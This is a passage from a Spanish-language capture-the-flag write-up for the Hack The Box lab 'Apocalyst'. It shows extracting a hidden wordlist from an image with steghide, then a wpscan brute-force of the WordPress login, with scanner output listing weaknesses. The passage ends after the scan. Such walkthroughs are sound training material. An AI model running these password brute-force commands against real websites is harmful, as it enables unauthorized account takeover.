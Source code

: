 `Vemos` el `contenido oculto` de la `imagen` debido a que no está protegida por ninguna contraseña

```
# teghide extract -sf image.jpg
Enter passphrase: 
wrote extracted data to "list.txt".
```
## Web Exploitation

Mediante `wpscan` hacemos `bruteforce` contra el `panel` de `login` del Wordpress

```
# wpscan --url http://apocalyst.htb -U falaraki -P list.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         Wordpress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://apocalyst.htb/ [10.129.156.119]
[+] Started: Sat Aug  3 03:42:12 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.Wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/Wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/Wordpress_pingback_access/

[+] Wordpress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-Wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] Wordpress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
```